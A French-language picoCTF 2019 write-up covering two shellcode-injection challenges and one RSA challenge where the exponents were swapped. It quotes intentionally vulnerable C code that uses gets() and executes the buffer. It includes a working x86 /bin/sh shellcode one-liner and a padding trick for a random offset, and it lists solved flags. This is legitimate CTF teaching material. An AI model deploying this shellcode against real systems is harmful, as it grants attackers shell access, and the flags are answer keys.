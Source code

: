 # Binary_Exploitation_50_Handy_shellcode

------

### Titre : Handy_shellcode

### Points : 50

------

### Description 

Ce programme exécute n'importe quel shellcode que vous lui donnez. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt ? (Merci à google translate :))

------

#### Hints

* vous pourrez peut-être trouver un bon shellcode en ligne. 

------





### Résolution

---

On se connecte vite en ssh sur le serveur shell puis une fois sur le serveur on trouve les trois fichiers suivants : flag.txt, vuln.c vuln. Je commence d'abord par analyser le programme c :
```c
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```

Ce programme utilise un buffer pour lire l'input de l'utilisateur on peut donc s'en servir pour envoyé un shellcode (Il s’agit donc essentiellement d’un morceau de code compilé arbitraire qui peut être injecté dans un programme afin d’engendrer un shell dans le système d’exploitation exécuté par le programme) aprés quelques recherches concernant le shellcode j'ai trouvé ce payload :
```bash
$ (echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; cat )  | ./vuln
...
```

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/handy_shell.png)


`picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`

# Binary_Exploitation_200_slippery_shellcode

------

### Titre : slippery-shellcode

### Points : 200

------

### Description 

Ce programme est un peu plus compliqué. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt? Vous pouvez trouver le programme dans /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 sur le serveur shell

------


### Résolution

Comme pour le handy shellcode je commence à analyser le code C ci-dessous :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```
Je comprends vite que ce code est presque le même qu'avec le handy-shellcode sauf qu'ici notre shellcode aprés  un offset qui est modulo 256. Pour un début je tente donc de lui envoyé mon shellcode directement :  

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/slippery1.png)

Mon shellcode est effectivement executé mais pas à la bonne adresse est donc j'ai un segmentation fault.
Je tente aprés d'executé mon shellcode en remplissant le buffer de 256  caractères suivi de mon shellcode.

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/slippery2.png)

Et Hop j'ai effectivément un shell et le flag.


`picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}`

# Crypto_400_b00tl3gRSA2

------

### Titre : b00tl3gRSA2

### Points : 400

------

### Description 

Connectez-vous sur  `nc 2019shell1.picoctf.com 10814`,...
En RSA, d est beaucoup plus gros que e, pourquoi ne pas utiliser d pour chiffrer au lieu de e?

------

#### Hints

* Qu'est-ce que e en général ?. 

------


### Résolution

une fois connecter au serveur il nous renvoi les paramétres suivants :

```bash
c: 3246567211807903956035755386967723378469000089645359852430311338899740839190191186912796367655591221991073923539783802534343637991859596366133917926183487070028511851491672546150628697450709648276484740441059116769268880830587810651048199357915546440564242235096147024745525549383938798867512940345819471689
n: 92862994629391715025973326227583472781928051965578118595096998621079516709489523781529594005972923927674610395292210963782547003449976221876961532867478284466283591394095929545356891486644591390877842583027695288887951335923580147704761840841012240495813817062197826156384498734601243045712509995933135061613
e: 55534726162469284328134833374089125970705191581654686697554612920273578259533132513991933989595141790093397702407611338686991542277109389566561688171186896367716544979539952509680212727662952068636577177373930069448696402121437219985978915997070443631144215446467780163599410246770789910349000677632900578365
...
```
En se basant sur l'enoncé du challenge, l'hint et connaissant un peu la cryptographie RSA on comprends vite que dans cette configuration la clé privé d pour dechiffré le chiffré c est la valeur de e par défaut qui est généralement 65537.

Maintenant je connais tous les paramétres pour dechiffré le message chiffré, j'ai tous simplement converti ces diffèrents paramètres en hexadecimal puis sur le site : [https://nmichaels.org/rsa.py](https://nmichaels.org/rsa.py) j'ai reussi à dechiffré le message.(Une autre méthode était d'utiliser [RsaCtftool](https://github.com/Ganapati/RsaCtfTool) qui est trés bien manipuler RSA )

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/slippery2.png)









